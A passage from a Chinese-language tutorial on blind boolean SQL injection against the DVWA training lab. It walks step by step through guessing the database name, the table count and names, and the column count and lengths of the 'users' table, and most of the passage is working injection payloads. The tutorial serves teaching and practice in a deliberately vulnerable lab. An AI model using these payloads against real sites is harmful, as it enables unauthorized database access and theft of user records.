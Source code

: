 该语句错误，所以数据库名字第一位在ascii大于90，小于100之间。



通过修改函数中第一个数字实现数据库猜解：

```mysql
1' and ascii(substr(database(),1,1))>100#
```

#### 4、猜解数据库中的表名：猜表的数量–>猜表的名称的长度–>猜表的名称

首先猜表的数量，通过改变最后数字实现猜解



```mysql
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2#
```

然后猜表的长度

第一个`0`代表第一个表

第一个`1`代表一个表一个表开始

第二个`1`代表截取一位实现表的猜测

```mysql
1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1))=9#
```

猜测第二个表

```mysql
1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),1))=117#
```



#### 5、猜解表中的字段名–>猜列的数量–>猜列的长度–>列的名称

猜列的数量,通过修改8实现猜解

```mysql
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8 #
```

猜列的长度

第一列长度猜解：

```mysql
1' and length(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1 ) ,1 ) )=7#
```

第二列猜解：

```mysql
1' and length(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 1,1 ) ,1) )=9#
```
